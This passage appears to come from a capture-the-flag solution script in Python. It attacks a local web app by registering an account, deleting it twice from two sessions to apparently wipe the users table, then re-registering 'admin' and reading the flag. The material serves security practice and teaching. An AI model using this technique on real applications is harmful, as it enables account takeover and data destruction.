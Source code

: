 ```python
        if isGetMethod:
            if self.isLocal:
                response = session.get(f'{self.baseUrl}{endpoint}')
                return response.text

            response = session.get(f'{self.baseUrl}{endpoint}', headers=headers)
            return response.text

if __name__ == '__main__':
    isLocal = True
    basicAuthUsername = None
    basicAuthPassword = None
    baseUrl = 'http://localhost:8600'
    exploit = Exploit(baseUrl, isLocal, basicAuthUsername, basicAuthPassword)

    session1 = requests.Session()
    session2 = requests.Session()
    # Register an account
    username = 'foo'
    password = 'bar'
    registerData = {
        'username': username,
        'password': password,
        'profile': 'foobar'
    }
    print(f'[*] Registering new account "{username}" in session 1')
    exploit.sendRequest(session1, 'POST', '/register', registerData)
    
    # Login to the account with 2 different session
    loginData = {
        'username': username,
        'password': password
    }
    print(f'[*] Logging in to new account "{username}" in session 1')
    exploit.sendRequest(session1, 'POST', '/login', loginData)
    print(f'[*] Logging in to new account "{username}" in session 2')
    exploit.sendRequest(session2, 'POST', '/login', loginData)

    # Delete the first and second session's user
    deleteUserEndpoint = f'/user/{username}/delete'
    print(f'[*] Deleting new account "{username}" in session 1')
    exploit.sendRequest(session1, 'POST', deleteUserEndpoint)
    print(f'[*] Deleting new account "{username}" in session 2')
    exploit.sendRequest(session2, 'POST', deleteUserEndpoint)

    # Register our new "admin" user as the `Users` table is deleted
    overwriteAdminUserData = {
        'username': 'admin',
        'password': 'admin',
        'profile': 'never_gonna_give_you_up'
    }
    print(f'[*] Overwriting old admin user in session 1')
    overwriteAdminUserResponse = exploit.sendRequest(session1, 'POST', '/register', overwriteAdminUserData)
    if 'user exists' in overwriteAdminUserResponse:
        print(f'[-] Failed to overwrite the admin user...')
        exit()

    # Get the flag as the new admin user
    print(f'[*] Getting the flag in session 1')
    flagResponse = exploit.sendRequest(session1, 'GET', '/flag')
    if 'The flag is:' not in flagResponse:
        print(f'[-] Failed to get the flag...')
```